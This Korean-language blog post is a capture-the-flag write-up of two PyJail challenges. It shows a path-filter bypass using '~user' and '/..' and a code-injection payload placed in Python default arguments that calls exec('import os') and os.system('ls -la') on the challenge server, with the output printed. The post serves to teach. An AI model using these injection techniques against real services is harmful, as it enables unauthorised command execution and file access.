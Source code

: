 ```yaml
---
layout: post
title: ! ' Hello, PyJail! '
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - CTF
  - ChristmasCTF2017
  - noxCTF2018
  - python
---
```


저는 오늘 PyJail 문제 2개를 들고왔습니다. 그럼 저희 같이 PyJail이 뭔지 알아보고, 그리고 이와 관련된 문제들을 풀어보면서 실전 감각을 익혀보도록 합시다.

<!--more-->

## PyJail 이란?

Python Jail, 또는 PyJail 이라고 불리우는 분야는 그 이름에서도 유추할 수 있듯, 파이썬(Python) + 감옥(Jail)의 합성어입니다. 이 분야의 문제들은 파이썬으로 동작하는 어플리케이션에서 악의적인 입력값을 통해 제한 조건을 벗어나 악의적인 방향으로 흐름을 조작하는 것이 목표입니다. 기본적으로 CTF의 가장 쉬운 문제 중 일부를 담당하고 있죠. 대부분은 `misc`로서 출제되지만, 어려운 문제의 경우, 또는 출제자의 의도에 따라 `pwnable`로도 충분히 분류될 수 있는 분야입니다. PyJail 분야의 문제를 풀기 위해서는 먼저 `Python`의 잘 알려진 몇 가지 특징에 대해서 짚고 넘어갈 필요가 있습니다.

`Python`은 모든 분들이 알고 있듯이, `interpreted language`입니다. 이는 언어로 작성된 코드를 미리 컴파일하여 실행 코드로 변환한 뒤 실행하는 `compiled language`와는 상반되게, 인터프리터가 언어를 읽어들이면서 바로 해석하고 실행한다는 특징을 가지고 있습니다. 또한 `dynamic typing`을 지원합니다. 이는 변수, 표현식, 함수, 모듈 등이 런타임에 결정된다는 뜻입니다. 이 둘은 매우 중요한 특징인데, 어플리케이션에 악의적인 유저 입력을 넣고 이를 실행시키는 과정이 다른 언어들에 비해서 크게 자유로운 편이라는 것입니다. 이는 문제를 풀어보면서 자세히 알아가보도록 합시다.

마지막으로 Python 2 버전과 Python 3 버전은 약간의 문법 차이가 존재한다는 특징도 알아둬야 합니다. 최신 Python 3 문법을 많이 사용하기는 하지만, 여전히 몇 개의 모듈들은 Python 2 버전만을 지원하므로 이는 알아둬야 하는 특징입니다. 예를 들면 Python 2 버전에서 다음과 같은 코드가 동작합니다.

```python
>>> print "hello, python2!"
hello, python2!
```

그렇지만 Python 3 에서는 에러를 뿜어내면서 동작하지 않습니다. Python 3 버전은 다음과 같이 동작합니다.

```python
>>> print "hello, python3!"
  File "<stdin>", line 1
    print "hello, python3!"
                          ^
SyntaxError: Missing parentheses in call to 'print'
>>> 
>>> print ("hello, python3!")
hello, python3!
```

이러한 문법 차이는 PyJail 문제를 풀 때 고려해야 할 사항 중 하나입니다. 그렇다면 실제 CTF에서는 어떻게 문제가 나왔는지 확인 해 보도록 합시다. 문제를 풀 때에는 제 의식의 흐름을 좇아갑니다.

## [2017 Christmas CTF] Everyday is Christmas

지금 소개해드릴 문제는 2017년 Christmas CTF에 출제된 문제로, 제가 처음으로 CTF 기간 내에 푼 문제이기도 합니다. 왜 크리스마스에 동아리방에서 해당 문제를 붙들고 있었는지는 넘어가시고... 문제는 CTF 종료된 후 다른 서버에 이식해서 풀었습니다.

![]({{ site.baseurl }}/images/KRater/2018-09-28-Hello_Pyjail/pic01.PNG)

해당 프로그램의 컨트롤 플로우는 위 그림과 같습니다. 간단하게 다시 설명하면, `chdir` 명령어를 통해 `working directory`를 `/tmp` 디렉토리로 바꿔버린 후, 사용자 입력을 `get_clean_path`라는 함수를 통해 검열합니다. 검열을 마치면 사용자 입력을 `path`로 받아들여서 해당 디렉토리 안의 파일을 모조리 출력해주고, 다시 `get_clean_path`를 이용해서 사용자 입력을 검열한 뒤 입력과 일치하는 파일 이름을 찾아서 이 파일의 내용을 출력해주는, 아주 간단한 루틴을 가지고 있습니다.

![]({{ site.baseurl }}/images/KRater/2018-09-28-Hello_Pyjail/pic02.PNG)

`get_clean_path`는 위와 같군요. 필터되는 내용을 보니 etc, proc, dev, passwd... 등등 시스템과 관련있는 디렉토리/파일들에 대해서 검열을 수행합니다. 그런데 왜 `home`과 `~`까지 검열을 수행할까요? `home directory`쪽에 무언가 있을 것 같다는 예감을 들게 합니다. 우리의 `working directory`도 `home directory`와는 한참 떨어지는 `/tmp`에 있구요. `./`이 안되니까 이전 디렉토리로 가려고 `../` 도 사용하기 어렵습니다.

그런데 반환할 때, `path.expanduser`라는 함수를 이용해서 반환을 해 줍니다. 그럼 이 함수가 무엇을 하는 녀석인지 `documentation`을 찾아보는 게 좋겠군요.

![]({{ site.baseurl }}/images/KRater/2018-09-28-Hello_Pyjail/pic03.PNG)

Unix에서 `path.expanduser`는 `~`또는 `~user`를 `user`의 `home directory`로 바꿔주는 역할을 한다고 되어있네요. 예를 들면 `~KRater`와 같이 인자가 들어오면, 이를 `/home/KRater`와 같이 바꾸어주는 역할입니다. 이를 활용하면 필터링을 우회할 수 있지 않을 것 같나요? 먼저 `~`을 통해서 서버의 홈 디렉토리를 열어보려고 시도했습니다.

![]({{ site.baseurl }}/images/KRater/2018-09-28-Hello_Pyjail/pic04.PNG)

그러자 파이썬의 오류메시지가 친절하게도 `/home/user`가 디렉토리라서 읽을 수 없다고 알려줍니다. 이렇게 오류메시지를 주는 PyJail 문제는 매우 친절한 편입니다. 이를 이용해서 많은 정보를 얻을 수 있기 때문이죠. 그리고 아까 이전 디렉토리로 가려고 `../`을 사용하기 어렵다는 말을 했었는데, `/..`는 막혀있지 않는다는 점에 주목해서 다음과 같이 할 수 있습니다.

![]({{ site.baseurl }}/images/KRater/2018-09-28-Hello_Pyjail/pic05.PNG)

딱 봐도 수상해보이는 플래그 유저가 있습니다. (원래라면 플래그 유저랑 user 둘 만 있어야 하는데 다른 서버에다가 임시로 문제를 설치해서 유저가 좀 많습니다. 그래도 문제 푸는데는 지장이 없어요.) 그렇담 이제 해당 유저의 홈 디렉토리를 읽고, 그 안에 있는 파일도 읽을 수 있게됩니다.

![]({{ site.baseurl }}/images/KRater/2018-09-28-Hello_Pyjail/pic06.PNG)

어때요, 참 쉽죠?

## [2018 noxCTF] Python for fun

다음 문제는 2018 noxCTF에 출제되었던 Python for fun 이라는 문제입니다.

![]({{ site.baseurl }}/images/KRater/2018-09-28-Hello_Pyjail/pic07.PNG)

문제가 위와 같이 나와있는데, 요약해보면 파이썬 공부용 웹사이트를 만들었다는 것과, python3를 활용한다는 등의 정보를 알 수 있습니다. 해당 웹사이트로 들어가 볼까요?

![]({{ site.baseurl }}/images/KRater/2018-09-28-Hello_Pyjail/pic08.PNG)

크게 세가지의 메뉴가 있습니다.

1. fix the code : 코드에서 틀린 부분을 찾습니다. (객관식)
2. match signature to body : 빠진 부분을 넣습니다. (**주관식**)
3. what the code returns : 코드가 무슨 값을 반환하는지 추측합니다. (객관식)

유저 입력을 객관식으로 넣는것도 가능하겠지마는, 원하는 값을 마음껏 넣을 수 있는건 주관식이겠죠? 주관식 문제를 들어가보았습니다.

![]({{ site.baseurl }}/images/KRater/2018-09-28-Hello_Pyjail/pic09.PNG)

함수 인자에 빠진 부분을 채워넣는 문제군요. 인터프리터가 서버에서 직접 실행되서 다음과 같은 코드를 실행하는 것 같습니다.

```python
def func(a, b) :
    c = a + b
    return c

print (func(10, 12) == 22)

True
```

이 함수가 실행된 결과가 True, False 등으로 나타나지만 별 의미없습니다. 여기서 중요한건 인터프리터가 서버에서 직접 우리가 입력한 값을 포함한 코드를 실행한다는 것이죠. 다음과 같은 코드는 어떨까요?

```python
def func(x, y, a=20, b=2, d=1, e=1, f=1) :
	c = a + b
	return c

print (func(10, 12) == 22)

True
```

역시 True로 나타나는 구문입니다. 어, 뭔가 이상하죠? 저는 x와 y에 10, 12를 넣었는데 True가 나타납니다. 이는 a와 b를 미리 결정된 값을 갖는 인자로 선언했기 때문입니다. 파이썬은 인자에 default값을 결정할 수 있습니다. 이는 호출 시 인자의 값을 결정하지 않더라도, 이를 자동으로 default값을 따르도록 만들어주는 아주 편리한 기능입니다. 그렇다면 이렇게 생각해 봅시다. 호출할 때 함수의 리턴값을 default로 만들 순 없을까요?

```python
def func(x, y, a=20, b=2, d=print("hello, world!")) :
    c = a + b
    return c

print (func(10, 12) == 22)

hello, world!
True
```

아주 잘 작동하는군요. print 함수의 결과로 출력된 문자열을 볼 수 있습니다. 그렇다면 그냥 우리가 원하는 함수를 실행시킬 수 있게 된 것이죠.

```python
def fun(a, b, x=exec('import os'), y=os.system('ls -la')):
    c = a + b
    return c

print(fun(10, 12) == 22)

total 8
drwxr-xr-x 1 root root  18 Sep 13 06:46 .
drwxr-xr-x 1 root root  17 Sep  8 23:27 ..
-r--r--r-- 1 root root  23 Sep  5 16:45 FLAG
dr--r--r-- 1 root root 168 Sep 13 06:46 learn_python.py
-r--r--r-- 1 root root 563 Sep  5 16:45 manage.py
dr--r--r-- 1 root root  74 Sep 13 06:46 python_ctf_thing
dr--r--r-- 1 root root 136 Sep 13 06:46 templates
True
```

`exec` 함수로 `import os`구문을 실행시킨 뒤 `os.system` 함수를 실행하면 쉘 명령을 실행시킬 수 있습니다. FLAG를 찾을 수 있네요. cat 명령어를 실행시켜서 플래그를 읽으면 됩니다.



## 마치며

지금까지 기본적인 PyJail 문제들을 풀어보았습니다. PyJail 분야가 CTF에서 가장 쉬운 문제들을 담당하고 있다고 말은 했지만, 생각보다 훨씬 점수 배율이 높은 문제들도 있습니다. 파이썬에 익숙한 사람일수록 이 문제들의 체감 난이도는 급락하기 때문에 CTF에서 점수를 내기에 좋을것입니다. 그럼, 모두 즐거운 공부 되시기 바랍니다 ^0^
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTcxNjkxMDI4MF19
-->